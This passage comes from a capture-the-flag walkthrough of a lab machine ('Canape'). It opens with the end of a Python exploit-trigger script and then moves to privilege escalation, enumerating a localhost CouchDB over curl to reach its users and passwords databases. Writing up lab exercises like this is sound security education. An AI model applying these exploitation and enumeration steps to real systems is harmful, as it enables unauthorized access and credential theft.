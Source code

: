         print("[+] Triggering exploit with /check, id = {}".format(id_))
        try:
            r = requests.post('http://10.10.10.70/check', data = {'id': id_}, timeout=1)
        except:
            pass
    
    if __name__ == "__main__":
        main()
    

## PrivEsc: www-data –> homer

There are a few interesting artifacts on the box, but it turns out that the
path forward is in the CouchDB instance.

### CouchDB

#### Enumeration

The page source also showed that the simpsons quotes were stored in a couchdb:

    
    
    app.config.update(
        DATABASE = "simpsons"
    )
    db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]
    

The couchdb is only on localhost:

    
    
    www-data@canape:/var/www/git$ netstat -ano | grep "LISTEN "
    netstat -ano | grep "LISTEN "
    tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:41991           0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp6       0      0 :::65535                :::*                    LISTEN      off (0.00/0/0)
    tcp6       0      0 :::4369                 :::*                    LISTEN      off (0.00/0/0)
    

To interact with couchdb, use curl from the local access. The passwords and
_users dbs seem interesting, but neither is accessible:

    
    
    www-data@canape:/var/www/git$ curl http://localhost:5984/_all_dbs
    ["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
    

We can list ids in a database at the `/[database name]/_all_docs` path. To get
an individual document, we visit `/[database name]/id`

    
    
    www-data@canape:/var/www/git$ curl http://localhost:5984/simpsons/_all_docs
    {"total_rows":7,"offset":0,"rows":[
    {"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
    {"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
    {"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
    {"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
    {"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
    {"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},